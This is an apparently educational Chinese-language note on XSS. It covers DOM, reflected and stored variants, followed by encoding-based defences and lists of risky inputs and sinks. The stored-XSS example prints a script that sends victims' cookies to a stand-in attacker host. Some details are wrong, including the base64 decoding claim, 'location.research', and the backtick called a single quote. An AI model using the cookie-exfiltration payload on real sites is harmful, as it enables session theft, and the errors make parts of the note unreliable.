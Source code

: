 # XSS概述
  XSS的目标是让其他站点的js文件运行在目标站点的上，这主要发生在页面渲染阶段。在该阶段发生了某些非预期的脚本行为，该脚本可能来自用户的输入，也可能来自域外的其他js文件，不一而足。

  主要有两点：
  1.其他站点的js文件运行在目标站点上
  2.发生起源主要来自于用户输入

# XSS的类型：

XSS的发生起源来自于用户输入，因此根据用户输入数据以何种形式、何时触发XSS、是否有后端服务器的参与将其划分为三种类型:

1.DOM XSS:
2.反射型XSS:后端参与但不存储
3.存储型XSS:后端参与且存储

## DOM XSS:
1.一般形式:
  例：
  test.html:
     <script>
      eval('alert(location.hash.slice("1"))');
     </script>

  攻击者输入：
    localhost/test.html#document.cookie
 
## 反射型XSS：
1.一般形式：
  (1)形式一：
    test.html:
      <?php echo $_GET['name'] ?>
    攻击者输入:
      localhost/test.php?name=alert(document.cookie) 

  (2)形式二：
    test.html:
      <?php echo $_GET['name'] ?>
    攻击者输入:
      localhost/test.php?name=data:text/html;charset=utf-8;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpPC9zY3JpcHQ+

    注：name后面的编码字串解码后是“alert(document.cookie)”。

## 存储型XSS：
1.一般形式:
  例：
  test.html:
    <form method="post" action="/">
      <fieldset>
        <label>备注：</label><input type="text" value="" />
      </fieldset>
    </form>
  攻击者在备注输入框中输入如下内容，然后后台系统的使用人员的cookie信息将会被攻击者拿到：
    <script>document.getElementById('attacker').href='http://www.attacker_741.com/receiveCookies.html?'+document.cookie;</script>
    

# 总的预防措施:
  对输入(和URL参数)进行过滤，对输出进行编码

## 编码预防原理：
  将相关内容编码后，其只能作为字符串在页面中进行显示，而不能作为Html或js或url进行解析执行。

## 注意事项：
1.url编码时，不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型，进而导致不能正常解码，不能正常执行；
2.js编码时，对圆括号、双引号、单引号等等字符如果进行编码，解码时其仅会被解析为字符串文本或者标识符名称。
3.浏览器对Html、js和url的解析原理：
  (1)对于文档只含有html和url的情况：先html解析，然后url解析。
  (2)对于文档含有html和url以及js，且url内容为js的情况。先html解析，然后url解析,最后js解析。
  (3)对于文档含有html和url以及js，且js内容为url的情况。先html解析，然后js解析,最后url解析。
  
# 具体措施:
## 为了预防XSS，进行html编码时，需要编码的字符至少需要包含如下字符：
  1.< :即左尖括号；
  2.> :即右尖括号；
  3.` :即单引号；
  4." :即双引号；
  5.& :即与操作。

## 为了预防XSS，js可以进行转义和编码。
  1.转义：使用“\”对特殊字符进行转义后，字符将以字符串形式呈现，不会当做代码执行。
  2.编码：对圆括号、双引号、单引号等等字符如果进行编码，解码时其仅会被解析为字符串文本，不会被当做代码执行。

## 为了预防XSS，url编码。
  对url键值对中的值进行编码。

## 需要留意的输入源：
  1.document.URL；
  2.location.hash；
  3.location.research；
  4.document.referrer(此处应尤为注意，referrer属性虽然可用于避免CSRF，但可触发XSS攻击)；
  5.XHR返回值（跨域返回值）；
  6.form表单及各种input框。

## 需要留意的操作：

1.直接输出HTML内容
  document.body.innerHTML = ...
  document.body.outterHTML = ...
  document.write()

2.HTML标签内联脚本:
  <img src='abc' onerror=alert('error')>

3.直接执行脚本:
  eval
  new Function(){}
  setTimeout()
  window.execScript()

4.打开新页面触发XSS:
  window.open()
  location.href = ...
  location.hash = ...





